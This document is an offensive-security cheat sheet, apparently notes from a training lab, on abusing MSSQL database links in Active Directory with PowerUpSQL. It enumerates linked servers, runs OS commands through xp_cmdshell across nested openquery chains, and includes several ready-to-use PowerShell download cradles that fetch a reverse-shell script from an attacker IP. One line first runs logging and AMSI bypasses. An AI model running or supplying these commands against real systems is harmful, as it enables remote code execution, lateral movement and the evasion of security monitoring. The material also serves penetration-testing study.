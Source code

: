 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest/domain trusts - nothing limits it

### Requirement

* SPN and active SQL Server

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Import-module .\PowerUpSQL.ps1
</strong><strong>Get-SQLInstanceDomain
</strong>
//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
</code></pre>

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstanceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-SQLServerLink -Instance hostname_of_mssql_server -verbose
</strong>  On all sqlinstances from above
<strong>❗Get-SQLServerLinkCrawl -Instance hostname_of_mssql_server -verbose
</strong>
-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver &#x26; Windows Auth
</code></pre>

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
</strong><strong>
</strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'powershell download cradle"

❗Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.x.x/Invoke-PowerShellTcp.ps1'')"'

Get-SQLServerLinkCrawl -Instance usmssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami'''

Get-SQLServerLinkCrawl -Instance usmssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget db-sqlsrv
<strong>
</strong>//this runs accross all links
=> only for eu-sql we get an output
</code></pre>

**Executing Commands**\
Target server should have xp\_cmdshell or rpcout (disabled by default)

* If **rpcout is enabled, you can enable xp\_cmdshell using**

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "link-name"
```



* Use the -QuertyTarget parameter to run Query on a specific instance **(without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain!)**&#x20;

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql

From the initial SQL Server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select
@@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')

From the initial SQL server, OS commands can be executed using nested
link queries:
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')


```
{% endcode %}

Advanced bypass and reverse shell

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing
http://192.168.100.X/amsibypass.txt);iex (iwr -UseBasicParsing
http://192.168.100.X/Invoke-PowerShellTcpEx.ps1)"'''
```
{% endcode %}

